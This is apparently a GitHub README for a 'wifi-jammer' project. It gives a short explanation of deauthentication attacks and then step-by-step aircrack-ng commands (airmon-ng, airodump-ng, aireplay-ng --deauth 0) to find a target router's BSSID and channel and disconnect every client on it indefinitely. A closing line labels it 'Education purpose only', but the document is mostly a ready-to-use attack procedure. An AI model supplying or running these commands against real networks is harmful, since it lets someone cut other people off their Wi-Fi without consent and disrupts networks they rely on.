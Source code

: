 # wifi-jammer
wifi jammer using aircrack-ng without any external wifi adapters.
# What is deauth attack
A deauth attack sends forged deauthentication packets from your machine to a client connected to the network you are trying to jam. These packets include fake "sender" addresses that make them appear to the client as if they were sent from the access point themselves. Upon receipt of such packets, most clients disconnect from the network and immediately reconnect.
# Getting started 
Install [aircrack-ng](https://github.com/aircrack-ng/aircrack-ng) on your machine and make sure your wifi card supports monitor mode (your in-build wifi card is enough if it supports monitor mode)
# Jamming
### Monitor Mode
1. type `iwconfig` in your terminal

   ![1](https://github.com/mtm-x/wifi-jammer/assets/88881685/8e6b01cb-34cc-4fad-babe-42c7d38db355)

In this instance, my wireless card is called wlan0.

2. Now run 

```
sudo airmon-ng start wlan0
```
where wlan0 is your network card. This will put your card into monitor mode which allows the card to monitor all traffic on the network.


![2](https://github.com/mtm-x/wifi-jammer/assets/88881685/02ea0b7a-0e36-4273-a1af-f2b22535df48)

as you can see my wifi card is now in monitor mode


3. You will need to run `iwconfig` again because after switching to monitor mode it will change your network card name. In most cases it changes it to mon0 but in mine it’s changed to wlan0mon.

   ![3](https://github.com/mtm-x/wifi-jammer/assets/88881685/db4ac485-2cd4-4b18-92d8-ee8afd7a4408)

4. Now run


   
```
sudo airodump-ng wlan0mon
```


![4](https://github.com/mtm-x/wifi-jammer/assets/88881685/77d64c1c-b02f-489d-84f6-c23a376558d9)

This is every single router in range.once you find your target Press `ctrl+c` to stop. Now we just gonna deauth my router named victim.

We want to take note of 2 things here:

    The BSSID (mac address) of the router
    The Channel(CH) of the router


In my case the channel is 4 and copy the corresponding bssid 


5. Now run the following command


```
sudo airodump-ng wlan0mon --bssid [routers BSSID here] -c [routers channel here]
```

-c for channel . 

![5](https://github.com/mtm-x/wifi-jammer/assets/88881685/8df5a9ea-d57e-4339-829f-383b5fe1d267)

now it shows like this

6. now run

```
sudo aireplay-ng --deauth 0 -a [ROUTERS BSSID HERE] wlan0mon
```

The 0 represents an infinite amount of deauth attacks. If you wanted to only run 5 deauth attacks you’ll change this to 5.


![6](https://github.com/mtm-x/wifi-jammer/assets/88881685/a7fc9438-6c52-4d6a-9048-ee2031cbf268)


now all the devices connected to the router 'victim' will be disconnected . The connected devices try to reconnect to the router 'victim' but again it will be disconnected . Press `ctrl+c` to stop


## Managed Mode

After the attack put your wifi card in managed mode 

1. Run

```
sudo airmon-ng stop wlan0mon  
```

That's it 

Education purpose only


   






